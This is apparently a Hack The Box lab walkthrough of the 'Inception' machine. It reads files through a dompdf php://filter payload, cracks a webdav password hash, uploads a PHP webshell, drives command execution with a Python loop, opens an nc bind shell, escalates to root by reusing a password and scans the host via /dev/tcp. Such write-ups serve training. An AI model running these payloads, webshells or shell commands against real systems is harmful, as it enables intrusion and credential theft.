# HTB: Inception Walkthrough


## Overview

[link](http://127.0.0.1)

## Initial Scan

Starting off with our nmap all ports, we discover that TCP ports 80 and 3128 are open. We discover that HTTP and Squid Proxy are running on the target system.



## TCP 80 HTTP Enumeration

### Enumeration commands

Looking at the web technology with curl we don't find anything that jumps out to us.

```
curl -I http://10.129.1.104

HTTP/1.1 200 OK
Date: Tue, 05 Apr 2022 10:33:11 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Mon, 06 Nov 2017 08:36:43 GMT
ETag: "b3d-55d4c5aaad546"
Accept-Ranges: bytes
Content-Length: 2877
Vary: Accept-Encoding
Content-Type: text/html
```

Running a quick wfuzz directory bruteforce we find two directories, named assets and images. 

```
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://10.129.1.104:80/FUZZ/ 
```


### Manual search

Let's take a look at the web site and the two directories. The landing page is pretty simple, it has one section for user input in the form of an email signup. 

The two directories do not lead to anything of interest. Looking at http://10.129.1.104/assets/js/main.js we notice that the email sign up isn't doing anything.



We will take a look at the landing pages source code. Right clicking and inspecting the page uncovers a comment at the bottom of the source code, the comment mentions 'dompdf.



### dompdf 

[dompdf](https://github.com/dompdf/dompdf)

We'll test to see if /dompdf/ exists and it does.



We get a version number at http://10.129.1.104/dompdf/VERSION and not a great deal else. We'll note this down and continue information gathering.


## TCP 3128 Squid Proxy Enumeration

Connecting to the http://10.129.1.104:3128/ url offers nothing of interest to us, so we will try and search locally, by using proxy chains and curl. We can search for any services behind the proxy

### Finding possible Services

Editing the proxychains configuration file at /etc/proxychains4.conf we add the following line. Forward http to 10.129.1.104 on port 3128

```
http 10.129.1.104 3128
```

We can use curl and check for connection to ports locally. We will test port 80 and 3128.

```
proxychains curl --proxy "http://127.0.0.1:80" "http://10.129.1.104:3128"
proxychains curl --proxy "http://127.0.0.1:3128" "http://10.129.1.104:3128"
```

The requests are both successful as we see from the 200 Ok as well as the HTML of the page from port 80.



### Scanning with python

Looking at the output from proxychains and curl, we can automate this task and search of any other accessible services on the target system. We will create a simple python script that will try to connect to other ports.

As we saw from the successful request on port 80, proxychains output states:

```
Strict chain  ...  10.129.1.104:80  ...  127.0.0.1:3128  ...  OK
```

For an unsuccessful request, the output states:

```
[proxychains] Strict chain  ...  10.129.1.104:3128  ...  127.0.0.1:25 <--denied
```

This is key to our confirmation of a possible open port, for when we split this output a successful request will have more elements saved to our list.

The script runs the proxychans command for every port in the range of 1 to 1024 for the first attempt.

```python
import subprocess

# Command to run proxychains curl -proxy "http://127.0.0.1:80" "http://10.129.1.104:3128"

proxy = "http://10.129.1.104:3128"

for port in range(1, 1025):
    command = f"proxychains curl --proxy http://127.0.0.1:{port} {proxy}"
    output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    ok = output.stderr.split(b"...")
    try:
        if b'OK' in ok[3]:
            print(f"[+] {port} Possible Open Port!")
        else:
            pass
            #print(f"[-] {port} closed")
    except:
        pass  
```

Running the script shows that TCP port 22 is possibly open as well as 80. 


Let's try and confirm the port with proxychains.

```
proxychains ssh root@127.0.0.1
```



We can add the availability of port 22 to our notes. No other services were found so we will continue on.

## Vulnerability research: 

Looking back at our notes we search a little deeping in regards to dompdf. Seacrhsploit results reveal an exploit matching the version number we found in /dompdf



## Exploitation: Arbitrary File Read

### POC 

The searchsploit results points us to https://www.exploit-db.com/exploits/33004. The following payload downloads /etc/passwd to our kali machine, as a base64 string, in a pdf file.

```
http://10.129.1.104/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd
```



Running the strings command against the dompdf_out.pdf file we obtain the full base64 string.



We decode the string with the following base64 command and confirm the reading of the /etc/passwd file. The exploit was successful and we note the username of cobb at the bottom of the file.



## Enumeration Of The Target

There was a lot of searching to be done on this box, but when we started checking web server configuration files, we came across an interesting find. 

Apache2 configuration files can be found /etc/apache2/sites-available/. The default configuration file of 000-default.conf is read first. Searching for this file is successful and we again download a pdf file with the 000-default.conf in a base64 encoded string.

```
http://10.129.1.104/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/apache2/sites-enabled/000-default.conf
```

The file is saved as 000-default.pdf and again we access the base64 string with the strings command.



We decode the string with the following base64 command and confirm the reading of the 000-default.conf file. 



The configuration file reveals the location of a webdav directory and password file. 



## Code Execution Via Webdav

With the possible location of the webdav directory and webdav password, we can try and upload a webshell onto the target system. First we use the Arbitrary File Read exploit and read the webdav_test_inception/webdav.passwd file.

Using the following payload to download the webdav.passwd file in pdf format, saved as webdav-passwd.pdf
```
http://10.129.1.104/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/var/www/html/webdav_test_inception/webdav.passwd
```

Again, running the strings command against the downloaded pdf file and then decoding the base64 string. Finally  saving the output to hash.txt.



### Cracking the password

Crack the password with hashcat. First we must edit the hash.txt file and remove 'webdav_tester:'. Running the following hashcat command we crack the webdav password.

```
hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 

$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0:babygurl69 
```




### Uploading a webshell to the target

We will create a webshell in a file named shell.php

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Use curl to uploaded to the target, using the username and password from webdav.passwd

```
curl -T 'shell.php' --basic --user 'webdav_tester:babygurl69' 'http://10.129.1.104/webdav_test_inception/'
```
Confirm the shell was uploaded and command execution if successful with the following curl command.

```
curl -u webdav_tester:babygurl69 'http://10.129.1.104/webdav_test_inception/shell.php?cmd=id'
```



## Automate our Remote Code Execution With Python

The following python script runs commands on the target with the curl command used previously. It uses hURL to url encode the commands. The while loop gives us a feeling of a shell and lets us send commands a little faster.

```python
import os
import subprocess


while True:
    cmd = input("cmd: ")
    command = f"hURL -U '{cmd}'"
    output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    # Decode the hURL command output from subprocess, then split it to obtain the encoded command string.
    enc_command = output.stdout.decode('utf-8').split("[1m")
    # Split the url encoded command string at '\n'. The command now resides in the n variable.
    final_command = enc_command[-1].split('\n')
    try:
        os.system(f"curl -u webdav_tester:babygurl69 'http://10.129.1.104/webdav_test_inception/shell.php?cmd={final_command[0]}'")
    except:
        print("Err")
```



## Shell As www-data

With our python script we can search a lot of files. We can also run linpea.sh from it, to speed up the process. 

### Uploading NC to the target ANd Getting A reverse Shell

Using the webdav exploit we can upload the nc version on Kali. First we copy the nc binary to our current directory.

```
cp /usr/bin/nc .
```

Then we can upload the file to the /webdav_test_inception/ directory on the target machine, using the curl command.

```
curl -T 'nc' --basic --user 'webdav_tester:babygurl69' 'http://10.129.1.104/webdav_test_inception/ncat'
```

Confirm the nc file with our python script.



First we chmod the permissions on the ncat binary. After a little testing, we set up a listener on port 1234. With our python script, we run the following command on the target.

```
chmod 777 ncat
./ncat -nvlp 1234 -e /bin/bash
```



From our Kali machine, we use proxychains and connect to the listener on port 1234.

```
proxychains nc -nv 127.0.0.1 1234
```



We upgrade our shell and continue our search.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Ctrl + Z (Background Process.)
stty raw -echo ; fg ; reset
export SHELL=/bin/bash; export TERM=screen; stty rows 23 columns 139; reset
```



## Shell As User cobb

### Enumeration

While looking inside interesting directories we find the wordpress_4.8.3 directory, located at /var/www/html/wordpress_4.8.3/. A password search inside /var/www/html/ uncovers database credentials.

```
grep --color=auto -rnw '/var/www/html/' -ie "DB_PASSWORD" --color=always 2> /dev/null
```



The content of /var/www/html/wordpress_4.8.3/wp-config.php reveal MySQL credentials of:

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'VwPddNh7xMZyDQoByQL4');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

A quick search with netstat shows no MySQL on localhost, but there are two connections from 192.168.0.10 that stand out. We will add that IP to our notes.



### Password reuse

With no MySQL to connect to we will use the password found in wp-config.php and try to su to user root or cobb. We login as user cobb with the following command.

```
su - cobb
Password: VwPddNh7xMZyDQoByQL4
```

Checking what groups the user is part of, we see that cobb is part of the sudo group.

```
id
```


### User flag

We can access the user flag in /hom/cobb.

```
cat /home/cobb/user.txt 
4*****************************c
```

## Shell As root

User cobb is part of the sudo group so all we need to do is su as root. We cat the root flag but there is a message and no hash.

```
sudo su -
[sudo] password for cobb: VwPddNh7xMZyDQoByQL4
```



## Container Enumeration

Looking at some network command outputs, we see that we are connected to a container. Running the ip a shows that we have a docker container interface. The output shows that we are on the 192.168.0.0/24 subnet.

```
root@Inception:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:28:53:63 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.168.0.10/24 brd 192.168.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe28:5363/64 scope link 
       valid_lft forever preferred_lft forever
root@Inception:~# 
```

Looking into this a little further, we check the network configuration information. The output from cat /etc/network/interfaces suggests the host is located at 192.168.0.1, as this is the gateway address.

### Port scanning the host

We can scan the ports of the target at 192.168.0.1 a lot of different ways. 

```bash
#!/bin/bash
# Scans stuff.

	  # 21 25 80
for port in {1..65535};do
        timeout .1 bash -c "echo >/dev/tcp/192.168.0.1/$port" 2> /dev/null &&
                echo "port $port is open"
        done
echo "Done"
```

The port scan uncovers three open ports. TCP ports 21, 22 and 53 are open.

